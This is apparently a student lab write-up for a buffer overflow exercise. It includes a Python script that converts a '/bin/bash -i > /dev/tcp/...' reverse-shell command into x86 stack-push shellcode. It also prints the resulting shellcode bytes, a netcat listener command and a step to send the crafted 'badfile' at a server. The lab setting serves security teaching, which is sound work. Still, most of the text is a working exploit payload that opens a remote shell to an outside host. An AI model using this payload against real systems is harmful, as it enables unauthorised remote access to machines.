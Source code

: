 # Task 7

Use `shellcode.py` to print the partial shellcode of pushing the string argument `/bin/bash -i > /dev/tcp/10.0.2.15/7070 0<&1 2>&1` into the stack.

```{.python}
#!/usr/bin/python3
import sys;

instruction = r'/bin/bash -i > /dev/tcp/10.0.2.15/7070 0<&1 2>&1'
instruction = instruction + len(instruction)%4 * ' '
instruction_slide = []
push_inst = r'\x68'
sym = '\"'
for i in range(0, len(instruction),4):
	instruction_slide.append(instruction[i:i+4])
instruction_slide.reverse()
for i in range(0, len(instruction_slide)):
	print(sym + push_inst + sym + sym + instruction_slide[i] + sym)
```

Then replace the corresponding shellcode of `/bin/bash -c '/bin/rm /tmp/myfile'` in `malicious_code` with the adjusted output above.

```{.python}
        # Push the 2nd argument into the stack:
        #       '/bin/rm /tmp/myfile' 
        # Students need to use their own VM's IP address
        "\x31\xd2"  # xorl %edx,%edx
        "\x52"  # pushl %edx
        "\x68""    "
        "\x68""2>&1"
        "\x68""<&1 "
        "\x68""70 0"
        "\x68""5/70"
        "\x68"".2.1"
        "\x68""10.0"
        "\x68""tcp/"
        "\x68""dev/"
        "\x68"" > /"
        "\x68""  -i"
        "\x68""bash"
        "\x68""////"
        "\x68""/bin"
        "\x89\xe2"  # movl %esp,%edx
```

On the attacker machine, start a new shell run
```bash
nc -l 7070 -v
``` 

And send the content in `badfile` use another machine to attack the server
